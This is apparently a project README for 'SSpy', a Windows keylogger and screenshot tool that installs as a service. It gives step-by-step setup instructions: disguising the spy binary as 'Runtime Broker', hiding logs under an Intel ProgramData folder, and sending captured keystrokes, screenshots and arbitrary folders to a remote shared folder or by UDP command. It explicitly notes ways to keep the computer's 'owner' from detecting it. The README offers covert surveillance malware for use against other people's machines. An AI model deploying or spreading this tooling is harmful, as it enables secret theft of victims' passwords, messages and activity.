# SSpy
**Current version: 0.32 alpha**

SSpy is a keylogger & screenshoter based on the Windows system services. Once installed as a service, he is going to capture all data provided.

Program was tested on Windows 10 and was written in Visual Studio 17.

### More about application
Application is split between 2 programs. SSpy is a base application that handle service operations such as install, remove service and he also makes sure that Spy app works correctly. When SSpy start working, he will install Spy program named `Runtime Broker`, located `C:\\Windows` folder. After installation Spy application is running by itself and its job is to handle and save all keyboard input and capture screenshot provided by user to `timestamp.txt` and `timestamp.jpg` files located at `C:\\ProgramData\\Intel\\AGS\\Temp\\Logs`. And it also listens udp message and act by messages like start or stop service, send captured data, send any data in path by message from udp message app(this is another project, I named it `ai`). Captured screens are jpeg files and file size is normally 100KB per image. You can set image quality, file size is depend on image quality. Currently jpeg image quality is 30(of 100). If it's hard to recognize captured image, increase quality to 40 or 50 or even higher. But file size will be increased.
Keystrokes are logged in timestamp.txt(e.g. 0713164723.txt). Function keys like `Enter`, `Delete`, `Arrow Up`, ... are logged with unpersand(`&`)following key name and with space(e.g. ` &Enter `, ` &Delete `, ` &Up `). alphabet and numbers and special keys(`~!@#$%^...`) are stored as character. Space is also stored as character(` `). `Enter` and `Tab` makes new line in log file. Every new line has its timestamp when first character of line is stored. Keylog file will be made newly with current timestamp if there's no keylog file in folder. If file exist, key strokes are stored to existing log file.

##### Action by Message
1 - start capture
2 - pause capture
3 - send captured data, delete after send, continue capture
4 - send captured data, delete after send, pause capture
5 - send any data in path followed argument.(e.g. `ai send xx.xx.xx.xx:80 5 d:\\foldername`)
**important note: I couldn't test with folder which its name contain space like "dev tools" or "windows 10".
if you give space, the word followed space will be set as next argument. if you need to copy even folder with space in its name, contact me.**

You are using this application at your own risk.

### Working On
- [ ] change hardcoded paths
- [ ] major improvements to Spy application
- [ ] help

### How to use this application

##### Before Compile
1. You need to share a folder with write permission
2. At other's computer, open your shared folder, enter your username and password to open. It will help Spy app to send captured data to this shared folder.
3. Replace your ip address and shared folder name in Spy project/Spy.cpp/#38: `remotepath` e.g. `\\\\192.168.1.3\\sharedfolder\\`
4. Replace capture screenshot time interval(currently it's 2 second. it means capture 1 screen in every 2 seconds)

##### Compile
Compilation is handled manually for now. To compile this program you need **Windows Vista or later and a C compiler**.
I compiled with Visual Studio 2022(17.10.4) in Windows 10.

##### Install / Remove service
1. Make sure that SSpy and Spy is compiled & rebuilded and copy Spy.exe to `C:\\windows` and change file name to `Runtime Broker`(without any file extension).
2. To install service, in the folder where `SSpy.exe` exist, open CMD.exe console with Administrator permission and write `SSpy.exe install` command. You can install simply by Run as administrator `SSpy.exe`.
3. I'm not sure reboot OS is required or not. I tested without reboot but it works well.
4. After install, open service manager(Win + R, services.msc) and start `Runtime Broker Service`.
5. If firewall asks to allow app, click OK.
Service starts capture and stores captured data to `C:\\ProgramData\\Intel\\AGS\\Temp\\Logs`

There's nothing more to do. Captured data will take some capacity of hard disk, so take care to send captured data regularly or at least pause capture. Otherwise owner might detect by increasing hard disk used data capacity. one image file size is 100KB. capture 1 image per 2 second. It means 50KB/s. 50KB * 60 * 60 * 24 * 4 = 17280000KB If you didn't copy and delete captured data for 4 days, stored data size would be 17.28GB. If you take one per 5s, it will decrease to 6.912GB. hh

To uninstall service, in step 2 write command `SSpy.exe remove`

### Appendix
Check Readme in ai project to learn how to control spy app.
